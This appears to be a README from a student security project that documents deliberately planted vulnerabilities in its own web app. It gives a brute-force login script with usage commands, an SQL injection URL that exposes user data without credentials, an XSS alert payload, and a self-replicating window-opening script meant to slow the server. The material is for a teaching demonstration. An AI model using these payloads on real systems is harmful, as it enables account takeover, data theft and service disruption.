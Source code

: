 ## Vulnerability Outline
**To exploit the vulnerabilities outlined below, utilize the secret-keeper-not-secure branch**

### Brute-Force Attack
**brutePass.sh**
* BrutePass takes advantage of the PUT login to test username and password combos
* Usernames are provided by the script user
* Passwords are taken from passwords.txt which has the 10000 top passwords

**Directions to use brutePass.sh:**
1. Place brutePass.sh and passwords.txt in the same directory
2. Open a connection to osu servers (do not use flip3, or the same server as the site is hosted if not flip3)
3. Open the directory with brutePass.sh
4. You may need to give yourself permission to run the script: chmod 777 brutePass.sh

**To use the script:** ./brutePass.sh -g username URL

**Examples:**
* ./brutePass.sh -g Kyle flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Katie flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Admin flip3.engr.oregonstate.edu:6061


### SQL Injection Attack
**HTML SQL Injection:**
* SQL code can be inserted into the URL as placeholders are not used for MySQL credential checks
* Use the following URL to access users' information without their credentials
* flip3.engr.oregonstate.edu:6061/user/'\*'%20OR%20ALL&'\*'%20OR%20ALL

### HTML Injection Attack
**To inject a script:**
1. Sign into any existing user account
2. Add a new record, using the following as the value for one field in the form: 
>"&amp;gt;<script>alert("Warning: This site is vulnerable to an attack")</script>
3. Note the popup alert warning of possible attack

### Distributed Denial of Service (DDoS) Attack
**Fork Bomb:**
1. Make sure that the browser with the site open will not block popups
2. Add a new record, using the following as the value for the record name:
*  (CHANGE FORMAT SO RAW IS DISPLAYED INSTEAD OF FORMATTED)
>"&amp;gt;<script>
function fork() {
  	const win = window.open("http://flip3.engr.oregonstate.edu:6061/user/Kyle&12345");
	setTimeout(fork(), 1);
}
fork(); </script>
3. Select the name of the record (the code) from the record table
* This does not bring down the school server (thankfully) rather it illustrates how to slow down a weak server
* The Kyle account has this record already saved and ready to initiate 
